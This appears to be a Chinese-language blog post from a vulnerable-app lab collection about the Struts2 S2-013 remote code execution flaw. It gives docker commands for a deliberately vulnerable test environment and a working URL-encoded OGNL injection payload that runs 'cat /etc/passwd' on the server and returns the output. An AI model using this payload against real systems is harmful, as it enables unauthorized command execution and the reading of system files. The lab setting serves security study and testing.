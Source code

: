 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-013)"
date: 2017-06-13 18:43:56 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-013)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-013)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-013)环境'
---
```


<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-013 公告](http://struts.apache.org/docs/s2-013.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-013
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-013
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('cat /etc/passwd').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-013/s2-013-1.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
